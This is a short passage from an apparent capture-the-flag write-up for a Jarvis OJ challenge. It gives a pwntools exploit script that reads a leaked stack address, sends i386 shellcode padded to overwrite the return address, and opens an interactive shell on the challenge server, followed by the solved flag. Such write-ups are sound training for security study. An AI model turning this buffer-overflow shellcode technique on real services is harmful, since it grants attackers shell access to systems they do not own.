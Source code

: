  ```python
  from pwn import *
  r = remote('pwn2.jarvisoj.com', 9877)
  context(log_level = 'debug', arch = 'i386', os = 'linux')
  shellcode = asm(shellcraft.sh())
  a = r.recvline()[14: -2]
  buf = int(a,16)
  payload = shellcode + 'a'*(0x88+0x4-len(shellcode)) + p32(buf)
  r.sendline(payload)
  r.interactive()
  
  ```

  ![16](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/16.png)

  `CTF{82c2aa534a9dede9c3a0045d0fec8617}`

  

* [XMAN]level2![17](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/17.png)
